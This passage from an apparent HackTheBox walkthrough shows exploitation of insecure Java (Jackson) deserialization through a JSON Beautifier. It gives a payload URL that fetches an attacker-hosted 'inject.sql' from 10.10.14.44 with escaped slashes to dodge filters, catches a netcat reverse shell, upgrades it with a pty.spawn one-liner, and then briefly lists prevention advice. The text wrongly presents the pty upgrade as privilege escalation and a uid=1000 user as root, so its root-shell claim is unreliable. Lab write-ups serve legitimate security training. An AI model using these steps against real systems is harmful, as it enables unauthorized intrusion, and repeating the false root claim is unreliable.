 •	In the second payload, the URL is 'http:\/\/10.10.14.44:8000/inject.sql'. Here, the SQL script is our Inject.sql script we made from earlier which is hosted on our machine (10.10.14.44) The \/ in the URL is to demonstrate an escaped forward slash (/), which is used to evade security filters that are in place.

We then copy and paste this payload from our terminal and put it into the JSON Beautifier. We then select the Validate (beta!) option from the dropdown menu and click Process. 

![image](https://github.com/Jake-Schoellkopf/Insecure-Java-Deserialization/assets/133706360/2d5a5584-c4c5-4a25-a47c-44d8f10a807d)

Once clicked, we go back to our netcat listener and we see that we connected to our target host.

![image](https://github.com/Jake-Schoellkopf/Insecure-Java-Deserialization/assets/133706360/1536edf5-94a9-4743-ace7-2712629a29e0)

Where we typed ID and were returned with uid=1000(pericles), it appears that we have successfully established a connection and are interacting with a remote shell. The output uid=1000(pericles) suggests that the user running the shell on the remote system has the UID (User ID) of 1000 and the username "pericles.". 

We then escalate our privileges by entering the following command:

python3 -c ‘import pty;pty.spawn(“/bin/bash”)’

The command python3 -c 'import pty;pty.spawn("/bin/bash")' is a Python one-liner that is commonly used to upgrade a simple terminal shell into a more fully featured interactive shell. This is often referred to as "spawning a TTY shell."

Here's a breakdown of what the command does:

•	python3: This starts with the Python 3 interpreter.

•	-c: This option allows you to provide a single line of Python code to be executed.

•	'import pty;pty.spawn("/bin/bash")': This is the Python code provided as a single line. It does the following:

  •	import pty: This imports the "pty" (pseudo-terminal) module, which provides functions for working with terminal devices.

  •	pty.spawn("/bin/bash"): This line uses the "spawn" function from the "pty" module to create an interactive Bash shell. Essentially, it upgrades the current terminal session to a full-fledged Bash shell.

We then type the command whoami to see who we are now logged in as, and we see that we are the user Pericles, who is a root user. 

During this HTB walkthrough we have demonstrated how to identify the Java Deserialization vulnerability in the application, and how to leverage it to gain a root shell on the server. 

Prevention:

Preventing insecure Java deserialization in the Jackson library involves taking steps to mitigate the security risks associated with deserializing untrusted data. Deserialization of untrusted data can lead to security vulnerabilities, including remote code execution. Here are some best practices to prevent insecure Java deserialization when using the Jackson library:

1.	Avoid Deserialization of Untrusted Data:
The most effective way to prevent deserialization vulnerabilities is to avoid deserializing untrusted data whenever possible. Only deserialize data from trusted sources.
